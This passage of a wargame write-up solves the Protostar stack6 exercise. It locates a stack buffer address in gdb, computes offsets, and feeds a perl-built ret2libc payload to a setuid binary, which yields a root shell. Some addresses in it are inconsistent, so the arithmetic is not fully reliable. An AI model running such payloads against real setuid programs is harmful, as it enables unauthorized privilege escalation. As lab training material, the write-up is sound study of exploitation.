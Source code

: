 So I know the address of buffer in stackx was 0xbffff75c.  However, this won't be exactly right for the real   version.  I then used gdb to see the changes.

```
user@protostar:/opt/protostar/bin$ gdb --quiet /home/user/stackx
Reading symbols from /home/user/stackx...(no debugging symbols found)...done.
(gdb) break getpath
Breakpoint 1 at 0x804848a
(gdb) run
Starting program: /home/user/stackx

Breakpoint 1, 0x0804848a in getpath ()
(gdb) x/4000s $esp
...
0xbffff977:      "/home/user/stackx"
...
0xbfffffea:      "/home/user/stackx"
...
```

So the buffer was at 0xbfff75c, but there will be an offset. "/home/user/stackx" is 17 bytes long. "/opt/protostar/bin/stack6" is 25 bytes long. That's a difference of 8 bytes. Since this is shown twice in memory, that's a total of 16 bytes. We also will need to account for the 80 "A"s we're putting in for the EIP offset, and   20 chars for the ret2libc commands.  So let's add it up. 

```
user@protostar:~$ perl -e 'printf("0x%08x\n", 0xbfff75c + 16 + 80 + 20)'
0x0bfff7d0
```

So now we have all the info we need.  Again, we wanted to get to:

```
| buffer (80) | printf | execl | formatstring | prg | prg | here |
```

I wired it all up together with the values that we received.

```
user@protostar:~$cd /opt/protostar/bin
user@protostar:/opt/protostar/bin$perl -e 'print "A"x80 . "\x90\xdf\xed\xb7" . "\x60\xe4\xf2\xb7" . "\xa5\xf9\xff

\xbf" . "\x5a\xff\xff\xbf" . "\x5a\xff\xff\xbf" . "\xd0\xf7\xff\xbf"' %gt; /home/user/file
user@protostar:/opt/protostar/bin$ ./stack6 < /home/user/file
input path please: got path 

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA▒▒▒AAAAAAAAAAAA▒▒▒`▒▒▒▒▒Z▒▒▒Z▒▒▒▒▒▒▒
# whoami
root
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```
